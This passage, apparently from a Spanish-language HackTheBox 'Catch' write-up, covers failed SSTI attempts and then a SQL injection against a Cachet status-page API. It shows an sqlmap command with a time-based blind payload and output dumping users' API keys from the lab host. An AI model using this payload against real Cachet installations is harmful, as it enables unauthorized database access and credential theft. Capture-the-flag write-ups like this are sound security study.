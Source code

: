Pero no consigo ninguna forma de ejecutar comandos.

Desde el código fuente se puede ver como se sanitiza el output

<img src="/writeups/assets/img/Catch-htb/10.png" alt="">

En este [artículo](https://www-leavesongs-com.translate.goog/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp) explican una forma de abusar de otro SSTI pero a través de una inyección SQL

Sigo todos sus pasos

```null
sqlmap -u "http://10.10.11.150:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" -D cachet -T users -C api_key,username --dump --batch
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:18:02 /2023-02-09/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[13:18:02] [INFO] resuming back-end DBMS 'mysql' 
[13:18:02] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.11.150:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or 'a'=? and 1=1) AND (SELECT 9331 FROM (SELECT(SLEEP(5)))ifkr) --
---

Database: cachet
Table: users
[2 entries]
+----------------------+----------+
| api_key              | username |
+----------------------+----------+
| 7GVCqTY5abrox48Nct8j | john     |
| rMSN8kJN9TPADl2cWv8N | admin    |
+----------------------+----------+

[13:25:33] [INFO] table 'cachet.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.11.150/dump/cachet/users.csv'
[13:25:33] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.11.150'

[*] ending @ 13:25:33 /2023-02-09/
```
